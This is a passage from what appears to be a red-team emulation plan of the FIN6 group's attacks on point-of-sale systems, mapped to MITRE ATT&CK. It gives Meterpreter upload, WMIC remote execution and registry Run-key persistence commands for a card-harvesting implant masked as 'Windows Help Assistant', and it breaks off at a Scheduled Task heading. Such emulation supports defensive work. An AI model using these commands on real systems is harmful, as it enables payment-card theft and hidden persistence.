 ```sh
remote-exec wmi #{PoS system}
```

#### 5.2 Deploy POS implant to harvest POS data

```sh
meterpreter>upload #{Assistant32.exe} C:\Windows\temp
```

#### 5.3 Executing the POS implant using WMIC ([T1047](https://attack.mitre.org/techniques/T1047/))

FIN6 Procedure

```sh
wmic /node:#{"PoS system"} process call create #{"executable"}
```

```sh
Example: wmic /node:"192.168.101.1" process call create "c:\windows\temp\Assistant32.exe -Proc iexplore"
```

#### 5.4 Persistence <sup>[3](https://www2.fireeye.com/rs/848-DID-242/images/rpt-fin6.pdf)</sup> <sup>[5](https://exchange.xforce.ibmcloud.com/threat-group/f8409554b71a79792ff099081bc5ac24)</sup> <sup>[7](https://blog.morphisec.com/new-global-attack-on-point-of-sale-systems)</sup> <sup>[9](https://securityintelligence.com/posts/more_eggs-anyone-threat-actor-itg08-strikes-again)</sup>

##### Registry Run Keys ([T1547.001](https://attack.mitre.org/techniques/T1547/001/))

FIN6 Procedure - DLL

```sh
"C:\Windows\System32\reg.exe" ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v #{ } /t REG_SZ /d #{ } "C:\#{ },#{ } /f
```

```sh
Example: "C:\Windows\System32\reg.exe" ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Windows Help Assistant" /t REG_SZ /d "rundll32.exe "C:\Windows\SysWOW64\0409\Assistant.dll",workerInstance" /f
```

Alternative Procedure - EXE

```sh
"C:\Windows\System32\reg.exe" ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Windows Help Assistant" /t REG_SZ /d "C:\Windows\temp\Assistant32.exe" /f
```

##### Scheduled Task ([T1053.005](https://attack.mitre.org/techniques/T1053/005/))

FIN6 Procedure - DLL
